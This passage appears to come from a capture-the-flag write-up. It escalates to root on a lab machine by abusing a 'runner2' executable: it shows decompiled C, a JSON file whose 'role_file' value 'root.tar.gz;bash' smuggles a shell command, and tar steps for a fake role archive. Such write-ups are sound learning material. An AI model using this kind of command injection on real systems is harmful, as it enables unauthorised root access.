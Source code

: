 **Action-Based Execution** - The executable then checks the value of the "action" key and calls the appropriate function based on that action

```c
action_str = (char *)json_string_value(action_key_obj);
comparison_result = strcmp(action_str,"list");
if (comparison_result == 0) {
  listPlaybooks();
}
else if (comparison_result == 0) {
  // run - action
}
else if (comparison_result == 0) {
  // install - action
}
else {
  fwrite("Invalid \'action\' value.\n",1,0x18,stderr);
}
```

Looking into `runner2` executable reads a JSON file, performs some validation, and then executes an action based on the value of the "action" key. We need to figure out how to manipulate this process to get root access
## Shell as Root

I created a JSON file called `root.json` to exploit this vulnerability

-  **Action** - The `action` key is set to "install"
-  **Role File** - The `role_file` key is set to `root.tar.gz;bash`. The  `;bash` part is the trick! It tells the `runner2` executable to execute a shell command after installing the role
-  **Auth Code** - The `auth_code` key is set to `UHI75GHINKOP`, the authentication key we found earlier

```json
{
	"run":{
		"action": "install",
		"role_file": "root.tar.gz;bash"
	},
	"auth_code": "UHI75GHINKOP"
}
```

#### Role file

I created a fake role file called `root.tar.gz`, which is actually a compressed directory containing a script that executes a shell. This script will be executed after the `runner2` executable attempts to install the fake role

To create this role file, I created an empty directory called `test` with two subdirectories, `task` and `template`. Then, I used `tar` to create a compressed archive

```bash
$ tar -czvf test.tar.gz test                                                                                                           
test/
test/task/
test/template/
```
